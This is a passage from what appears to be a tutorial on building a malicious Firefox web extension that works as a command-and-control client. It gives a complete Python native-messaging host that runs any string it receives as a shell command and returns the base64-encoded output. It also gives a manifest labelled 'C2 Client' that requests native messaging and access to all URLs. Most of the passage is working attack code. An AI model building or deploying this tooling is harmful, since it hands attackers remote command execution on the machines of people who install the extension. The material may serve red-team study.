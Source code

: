 ##### App script
This is a python script, which receives data from the webextension via STDIN to execute the value as a system command encode the response and send the it via STDOUT to the webextension.
```python
#!/usr/bin/env python

import sys
import json
import struct
import base64
import subprocess

def getMessage():
    rawLength = sys.stdin.buffer.read(4)
    if len(rawLength) == 0:
        sys.exit(0)
    messageLength = struct.unpack('@I', rawLength)[0]
    message = sys.stdin.buffer.read(messageLength).decode('utf-8')
    return json.loads(message)

def encodeMessage(messageContent):
    encodedContent = json.dumps(messageContent).encode('utf-8')
    encodedLength = struct.pack('@I', len(encodedContent))
    return {'length': encodedLength, 'content': encodedContent}

def sendMessage(encodedMessage):
    sys.stdout.buffer.write(encodedMessage['length'])
    sys.stdout.buffer.write(encodedMessage['content'])
    sys.stdout.buffer.flush()

def execcmd(cmd):
    output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE,universal_newlines=True)
    return base64.b64encode(output.stdout.encode()).decode()

while True:
    receivedMessage = getMessage()
    sendMessage(encodeMessage(execcmd(receivedMessage)))
```
Now everything is set up. So the webextension can interact with the `execution` function.

##### Creating a Webextension
We need to create only two files, a `manifest.json` which contains the webextensions informations and the `background.js` which contains the client logic. Here we will create a simple example but feel free to create more sophisticated clients. First let's create the manifest file:
```json
{
  "description": "C2 Client",
  "manifest_version": 2,
  "name": "C2 Client",
  "version": "1.0",
  "applications": {
    "gecko": {
      "id": "malicious-webextension@github.io",
      "strict_min_version": "50.0"
    }
  },
  "background": {
    "scripts": ["background.js"]
  },
  "permissions": ["nativeMessaging","<all_urls>"]
}
```